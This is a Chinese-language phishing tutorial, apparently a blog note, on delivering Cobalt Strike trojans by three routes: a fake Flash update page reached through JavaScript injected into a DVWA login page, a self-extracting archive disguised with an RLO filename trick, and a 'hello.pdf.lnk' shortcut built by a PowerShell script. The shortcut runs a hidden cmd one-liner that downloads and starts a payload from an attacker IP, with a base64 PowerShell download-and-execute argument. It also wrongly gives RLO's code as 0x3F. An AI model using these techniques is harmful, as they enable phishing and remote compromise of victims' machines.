# Flash网页钓鱼

## 简介

Flash钓鱼攻击是一种网络攻击手段，旨在欺骗用户访问伪造的Flash更新页面，并诱使他们下载并安装恶意软件。这种攻击通常利用用户对Flash更新的需求，以及对合法更新网站的信任。攻击者通常会模仿Adobe Flash Player的官方更新页面，以提高诱骗成功率


## 步骤

### 1.CS生成木马

运行Cobalt Strike生成可执行木马，并将其放到伪造的flash网站的根目录，用于被受害用户下载


### 2.部署flash钓鱼页面

部署flash钓鱼页面，此处我使用phpstudy进行部署

	


修改flash钓鱼页面`index.html`，在“立即下载处”将超链接修改成木马的所在地址


### 3.目标页面置入JS代码

此处我以dvwa靶场来作为目标页面, 在dvwa的登录页面插入如下`javascript`代码, 用于实现弹框并跳转至flash钓鱼网址

```html
<script>
    function redirectToFlashUpdate() {
      // 指定要跳转的URL链接
      const flashUpdateUrl = 'http://www.flash.com:81’;
      
      // 创建一个弹框，提示用户Flash版本过低
      const userResponse = confirm('Flash版本过低，请到Flash官网进行升级。');

      // 如果用户点击确定按钮，则跳转到指定的URL链接
      if (userResponse) {
        window.location.href = flashUpdateUrl;
      }
    }

    // 在页面加载完成后执行redirectToFlashUpdate函数
    window.onload = redirectToFlashUpdate;
</script>
```


## 操作演示

访问dvwa页面，页面出现弹框，此处询问是否升级flash，若点击确定，则会下载我们准备的CS木马

	


# 自解压程序

## 简介

对于使用自解压文件的场景，攻击者可以创建一个自解压的exe文件，该文件解压后自动执行解压出来的文件。然后，通过插入RLO字符，将这个exe文件伪装成另一种看似安全的文件类型，比如文本文件或图片文件。当用户打开这个看似安全的文件时，实际上是在运行恶意的exe文件

RLO（Start of right-to-left override）是Unicode定义的一种特殊字符，其ASCII码为0x3F。这个字符被设计来兼容从右至左阅读的文字系统，如阿拉伯语。当在一行字符前加入一个0x3F字符，系统可以实现文本的反向排列。

在Windows系统中，如果一个字符串中包含RLO字符，系统会将该字符右侧的文本逆序显示。比如，原始字符串 "image[RLO]gpj.exe" 在Windows下会显示为 "imageexe.jpg"。


## 步骤

### 1.压缩图片和木马

将木马程序和图片文件添加到压缩文件

	


在`常规->压缩选项`, 勾选上`创建自解压格式压缩文件`

	


点击`高级->自解压选项`

		


在`高级自解压选项->常规`处, 将解压路径修改为程序的解压目录, 例如此处我填写的是`C:\windows\temp`

		


在`高级自解压选项->设置`处, 填写木马程序和图片文件的解压路径,此处我填写的是`C:\windows\temp\hacker.png`和`C:\windows\temp\beacon.exe`

	


在`高级自解压选项->模式->静默模式`, 勾选上`全部隐藏`

	


在`高级自解压选项->更新`, 勾选上`解压并更新文件`和`覆盖所有文件`

	


### 2.修改自解压程序图标

使用resource hacker替换自解压程序的图标, 最好将图标修改为你之前压缩进去的图片




以下是一个图片文件转图标文件的python代码

```python
from PIL import Image

# Open the image file
img = Image.open('hacker.png')

# Resize the image
# Most .ico files are 32x32 or 16x16, according to the standard Windows icon size
img = img.resize((32,32))

# Convert and save the image
img.save('hacker.ico', format='ICO')
```

​	

图标修改完后点击保存

	


### 3.RLO反转后缀

将自解压程序的文件名修改为`图片gpj.exe`，然后在`图片`和`gpj`之间插入RLO

		


插入RLO后的文件名变成了`图片exe.jpg`，这样自解压程序就拥有了一个图片文件的后缀。点击自解压程序，随即会同时执行木马程序和图片文件




## 参考链接

- https://wolke.cn/post/5653cc29.html	

- https://blog.csdn.net/weixin_44747030/article/details/123972595


# LNK钓鱼

## 简介

lnk文件是用于指向其他文件的一种文件。这些文件通常称为快捷方式文件，通常它以快捷方式放在硬盘上，以方便使用者快速的调用。lnk钓鱼主要将图标伪装成正常图标，但是目标会执行shell命令


## 步骤

### 1.编写shell命令

首先新建一个文本文件`test.txt`，用于存放要执行的shell命令(其实快捷方式钓鱼的本质就是指向cmd.exe以此来执行shell命令)

`test.txt`的内容如下所示，其目的是远程下载木马程序至本地存放临时文件的目录，随后附加参数执行木马程序

```shell
cmd.exe /c (curl http://192.168.47.155:80/download/mypowershell.exe --output C:\Windows\TEMP\win.exe) & (start /B C:\Windows\TEMP\win.exe SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzE5Mi4xNjguNDcuMTU1OjgwL2InKSk=)
```

> `start`命令用于启动一个新的窗口来运行指定的程序或命令，而`/B`选项告诉`start` 命令在后台（即无窗口）运行。这样做的目的是更加隐蔽地执行木马程序


### 2.编写ps1脚本生成lnk

创建一个powershell脚本文件`createlnk.ps1`，代码如下所示，其目的是生成一个lnk快捷方式

```powershell
# 从 "test.txt" 文件中获取内容，并将该内容存储在变量 $file 中
$file = Get-Content "test.txt"

# 创建一个 COM 对象，该对象对应于 Windows Script Host Shell，可以用来执行各种系统任务，例如创建快捷方式
$WshShell = New-Object -comObject WScript.Shell

# 使用 WSH Shell 的 `CreateShortcut` 方法创建一个快捷方式，该快捷方式的名称是 "test.lnk"
$Shortcut = $WshShell.CreateShortcut("hello.pdf.lnk")

# 设置快捷方式的目标路径，也就是快捷方式所指向的程序。这里设置的是 cmd.exe，它是 Windows 的命令提示符
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"

# 设置快捷方式的图标位置。这里设置的是 Shell32.dll 文件中的第 1 个图标
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,1"

# 设置当启动目标程序时要传递给它的命令行参数。这里设置的是 "test.txt" 文件的内容
$Shortcut.Arguments = ''+ $file

# 保存对快捷方式的所有更改，创建了实际的 ".lnk" 文件
$Shortcut.Save()
```


### 3.运行测试

使用powershell运行`createlnk.ps1`后会生成一个lnk文件`hello.pdf.lnk`。

点击lnk文件后，会执行之前编写的shell命令。如下图所示，`hello.pdf.ink`会被真正的pdf文件替换掉，CS成功上线。

这些功能的实现都归功于远程的powershell脚本，后续我会讲解下此脚本的实现思路




远程下载的木马程序其实就是一个模拟powershell的可执行程序，想了解的可以看我免杀系列的文章

这里我讲解下powershell远程执行脚本的代码，从上述的执行效果图可以发现，点击lnk一段时间后才打开真正的pdf文件，这是因为脚本需要花费一些时间去遍历系统的目录以此来寻找到lnk钓鱼文件的所在路径。后面你还可以添加CS上线的powershell代码，这里我就没添上去了

```powershell
# 从 "test.txt" 文件中获取内容，并将该内容存储在变量 $file 中
$file = Get-Content "test.txt"

# 创建一个 COM 对象，该对象对应于 Windows Script Host Shell，可以用来执行各种系统任务，例如创建快捷方式
$WshShell = New-Object -comObject WScript.Shell

# 使用 WSH Shell 的 `CreateShortcut` 方法创建一个快捷方式，该快捷方式的名称是 "test.lnk"
$Shortcut = $WshShell.CreateShortcut("hello.pdf.lnk")

# 设置快捷方式的目标路径，也就是快捷方式所指向的程序。这里设置的是 cmd.exe，它是 Windows 的命令提示符
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"

# 设置快捷方式的图标位置。这里设置的是 Shell32.dll 文件中的第 1 个图标
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,1"

# 设置当启动目标程序时要传递给它的命令行参数。这里设置的是 "test.txt" 文件的内容
$Shortcut.Arguments = ''+ $file

# 保存对快捷方式的所有更改，创建了实际的 ".lnk" 文件
$Shortcut.Save()
```


上述脚本代码有关于设置快捷方式的图标位置，图标位置的下标排序是从0开始的。例如下图我所指的这个图标，它的位置下标是1(从上往下数, 随后以此从左往右数)

这里还有一个大坑, 我发现在gui界面更换图标后点击lnk文件无法执行对应的shell命令, 只有使用powershell脚本来更换图标文件才能正常执行

			


## 参考链接

- https://xz.aliyun.com/t/9159#toc-5


# END:后续更新
